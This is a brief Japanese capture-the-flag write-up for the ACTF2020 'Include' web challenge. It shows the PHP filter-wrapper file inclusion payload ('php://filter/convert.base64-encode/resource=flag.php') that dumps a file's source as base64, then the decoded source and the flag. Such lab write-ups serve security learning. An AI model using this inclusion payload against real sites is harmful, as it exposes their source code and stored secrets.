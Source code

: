 # [ACTF2020 新生赛]Include1

感谢 Y1ng 师傅供题。

## 解法

分からないので他の人のwriteupを読みました．

クエリに`?file=php://filter/convert.base64-encode/resource=flag.php` を追加する．

参考
> convert.base64-encode と convert.base64-decode による変換
これらのフィルタは、すべてのストリームデータに対してそれぞれbase64_encode() または base64_decode() 関数を適用するのと同じ動作をします。
https://www.php.net/manual/ja/filters.convert.php

すると，以下の文字列が得られる．

`PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL2ZsYWd7MDc5NzNkMTctMzdkYi00NWUwLWExOGEtZGZjZjA0OThmMzM0fQo=`

最後にbase64でデコードする．

```php
<?php
echo "Can you find out the flag?";
//flag{07973d17-37db-45e0-a18a-dfcf0498f334}
```

## FLAG

```bash
flag{07973d17-37db-45e0-a18a-dfcf0498f334}
```

## 参考

- https://icode.best/i/98998634702187
- https://teratail.com/questions/26704
